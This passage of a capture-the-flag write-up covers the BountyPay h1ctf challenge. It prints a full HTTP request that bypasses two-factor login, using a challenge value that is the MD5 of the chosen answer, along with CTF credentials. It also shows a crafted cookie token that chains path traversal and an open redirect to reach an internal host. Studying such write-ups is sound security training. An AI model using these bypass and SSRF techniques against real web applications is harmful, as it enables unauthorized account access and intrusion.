  
# Initial Foothold
 
 Lets login now. After using the creds to login in we get greeted by the 2FA screeen: which can easily be bypassed by sending this request:
 ```
POST / HTTP/1.1
Host: app.bountypay.h1ctf.com
Connection: close
Content-Length: 110
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://app.bountypay.h1ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://app.bountypay.h1ctf.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

username=brian.oliver&password=V7h0inzX&challenge=5828c689761cce705a1c84d9b1a1ed5e&challenge_answer=bD83Jk27dQ
 ```
 This happened because the `challenge` was the md5sum of `challenge_answer`, after logging in as `brian.oliver` we see that we have nothing to do so far. Lets check other subdomains out now:
```
https://software.bountypay.h1ctf.com -> needs to be accessed internally | an SSRF would help 
https://www.bountypay.h1ctf.com -> nothing much 
https://staff.bountypay.h1ctf.com -> staff portal = Dont have creds yet
https://bountypay.h1ctf.com -> samething as the www thing
https://app.bountypay.h1ctf.com -> main app
https://api.bountypay.h1ctf.com -> The api that handles stuff
``` 

Lets focus on the cookie after we logged in: 
```
{"account_id":"F8gHiqSdpK","hash":"de235bffd23df6995ad4e0930baac1a2"}
```
upon playing around with the token and the api, I figured the token was basically a path being queryed to the api and a hash which was vulnerable to path travsersal. and the api had a redirection feature whitelisted to `https://www.google.com/search?q=` and `https://software.bountypay.h1ctf.com` was accessbible via the redirect uri as shown in the following request and the response:
Request:
```
GET /statements?month=11&year=2016 HTTP/1.1
Host: app.bountypay.h1ctf.com
Connection: close
Accept: */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
X-Requested-With: XMLHttpRequest
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://app.bountypay.h1ctf.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: token=eyJhY2NvdW50X2lkIjoiLi4vLi4vcmVkaXJlY3Q/dXJsPWh0dHBzOlwvXC9zb2Z0d2FyZS5ib3VudHlwYXkuaDFjdGYuY29tLyMiLCJoYXNoIjoiZGUyMzViZmZkMjNkZjY5OTVhZDRlMDkzMGJhYWMxYTIifQ==
```